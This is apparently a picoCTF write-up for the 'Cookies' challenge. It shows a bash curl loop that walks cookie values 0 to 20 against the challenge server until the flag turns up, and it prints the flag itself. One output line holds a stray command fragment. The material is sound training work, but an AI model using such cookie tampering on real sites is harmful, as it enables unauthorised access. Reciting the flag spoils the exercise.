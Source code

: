 ## Objetivo 
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)

## Solución
```bash
┌──(luispuentes㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name=$i"; done | grep "I love\|picoCTF"
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love oatmeal raisin cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love gingersnap cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love shortbread cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love peanut butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love whoopie pie cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love sugar cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love molasses cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love kiss cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love biscotti cookies!</b></p>
or i in {0..20}; do cur            <p style="text-align:center; font-size:30px;"><b>I love butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love spritz cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love snowball cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love drop cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love thumbprint cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love pinwheel cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love wafer cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>
            <p style="text-align:center; font-size:30px;"><b>I love macaroon cookies!</b></p>
^C

┌──(luispuentes㉿kali)-[~]
└─$ curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name=18" | grep "picoCTF"
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>

┌──(luispuentes㉿kali)-[~]
└─$          
```

## Notas
En linux, con burp en la parte de intruder se pueden generar unas peticiones de pagina con la modificacion de la cookie para ver todas las posibles opciones hasta encontrar la deseada

## Referencias
https://www.innovaciondigital360.com/cyber-security/burp-suite-que-es-como-se-utiliza/
